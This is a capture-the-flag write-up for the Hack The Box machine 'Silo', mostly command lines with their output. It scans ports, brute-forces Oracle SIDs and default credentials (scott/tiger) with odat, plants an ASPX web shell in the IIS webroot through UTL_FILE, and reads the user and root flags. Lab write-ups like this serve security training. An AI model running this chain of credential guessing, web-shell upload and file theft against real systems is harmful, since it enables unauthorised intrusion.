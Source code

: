 131 - Silo
==========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS -Pn --top-ports 1000 10.10.10.82                                             ⏎
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 11:05 CEST
Nmap scan report for 10.10.10.82
Host is up (0.049s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.04 seconds
```

More specific checks on discovered ports:
```bash
❯❯❯ sudo nmap -sS -sV -sC -O -Pn -p 80,135,139,445,1521 10.10.10.82
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 11:10 CEST
Nmap scan report for 10.10.10.82
Host is up (0.044s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Server 2012 R2 (96%), Microsoft Windows Server 2012 (95%), Microsoft Windows Server 2012 R2 (95%), Microsoft Windows Server 2012 R2 Update 1 (95%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (95%), Microsoft Windows Vista SP1 (94%), Microsoft Windows Server 2008 SP2 or Windows 10 or Xbox One (93%), Microsoft Windows Vista SP0 - SP2, Windows Server 2008, or Windows 7 Ultimate (93%), Microsoft Windows Server 2008 SP2 Datacenter Version (93%), Microsoft Windows Server 2008 SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-07-20 11:11:10
|_  start_date: 2018-07-20 09:12:31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.25 seconds
```

Script checks on Oracle:
```bash
❯❯❯ sudo nmap -sS -sC --script 'oracle*' -Pn -p 1521 10.10.10.82
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-20 11:17 CEST
Nmap scan report for 10.10.10.82
Host is up (0.13s latency).

PORT     STATE SERVICE
1521/tcp open  oracle
| oracle-sid-brute: 
|_  XE

Nmap done: 1 IP address (1 host up) scanned in 224.49 seconds
```bash

To brute force an account, I installed odat from <https://github.com/quentinhardy/odat>. Using odat and metasploit I could get the following valid SID:
- XE
- XEXDB
- PLSEXTPROC
- PW
- SO
- SP
- SQ


Since we know some SIDs we can now launch odat as follows:
```bash
❯❯❯ ./odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file defaults-low.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
The login system has already been tested at least once. What do you want to do:    | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. Continue...                                               
100% |#############################################################################| Time: 00:12:19 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger
```

It is then possible to log in using sqlplus:
```bash
❯❯❯ sqlplus scott/tiger@10.10.10.82/XE

SQL*Plus: Release 12.2.0.1.0 Production on Fri Jul 20 14:29:56 2018

Copyright (c) 1982, 2016, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> SELECT version FROM v$instance;

VERSION
-----------------
11.2.0.2.0
SQL> SELECT * FROM session_privs;

PRIVILEGE
----------------------------------------
CREATE SESSION
CREATE TABLE
CREATE CLUSTER
CREATE SEQUENCE
CREATE PROCEDURE
CREATE TRIGGER
CREATE TYPE
CREATE OPERATOR
CREATE INDEXTYPE

9 rows selected.
```

It seems that we have no access... however, later I was granted all DBA access so I assume that someone did the privilege escalation on the database for me... From here I used odat again to confirm my access rights and check all modules with the scott user:
```bash
❯❯❯ ./odat.py all -s 10.10.10.82 -d XE -U scott -P tiger

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Testing all modules on the XE SID with the scott/tiger account
[2.1] UTL_HTTP library ?
[-] KO
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
[+] OK
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
[2.6] DBMSSCHEDULER library ?
[-] KO
[2.7] CTXSYS library ?
[-] KO
[2.8] Hashed Oracle passwords ?
[+] OK
[2.9] Hashed Oracle passwords from history?
[-] KO
[2.10] DBMS_XSLPROCESSOR library ?
[+] OK
[2.11] External table to read files ?
[-] KO
[2.12] External table to execute system commands ?
[-] KO
[2.13] Oradbg ?
[-] KO
[2.14] DBMS_LOB to read files ?
[+] OK
[2.15] SMB authentication capture ?
[-] KO
[2.16] Gain elevated access (privilege escalation)?
[+] The current user has already DBA role. It does not need to exploit a privilege escalation!
[2.17] Modify any table while/when he can select it only normally (CVE-2014-4237)?
[-] KO
[2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
[+] Impossible to know if the database is vulnreable to the CVE-2012-3137. You need to run this as root because it needs to sniff authentications to the database

[3] (10.10.10.82:1521): Oracle users have not the password identical to the username ?
The login XS$NULL has already been tested at least once. What do you want to do:                           | ETA:  00:00:00 
- stop (s/S)
- continue and ask every time (a/A)
- continue without to ask (c/C)
s
100% |#####################################################################################################| Time: 00:00:10 
[-] No found a valid account on 10.10.10.82:1521/XE
```

The UTL_FILE library is allowed. According to the documentation of the tool it should allow to upload files on the server. Let's do it to upload an ASPX web shell. I uploaded the one from FuzzDB:
```bash
❯❯❯ ./odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile 'C:\inetpub\wwwroot\' 'unique314159shell.aspx' ../cmd.aspx

[1] (10.10.10.82:1521): Put the ../cmd.aspx local file in the C:\inetpub\wwwroot\ folder like unique314159shell.aspx on the 10.10.10.82 server
[+] The ../cmd.aspx file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the unique314159shell.aspx file
```

We can now connect to our webshell and run commands, after listing the `C:\Users` directory we can recover the flag with `type C:\Users\Phineas\Desktop\user.txt` which returns:
```
92ede778a1cc8d27cb6623055c331617
```

## Privilege escalation
Since we are DBA, just download the file, the DB seems to be running with high privileges:
```bash
❯❯❯ ./odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --getFile 'C:\Users\Administrator\Desktop\' 'root.txt' root.txt

[1] (10.10.10.82:1521): Read the root.txt file stored in C:\Users\Administrator\Desktop\ on the 10.10.10.82 server
[+] Data stored in the root.txt file sored in C:\Users\Administrator\Desktop\ (copied in root.txt locally):
cd39ea0af657a495e33bc59c7836faf6
```
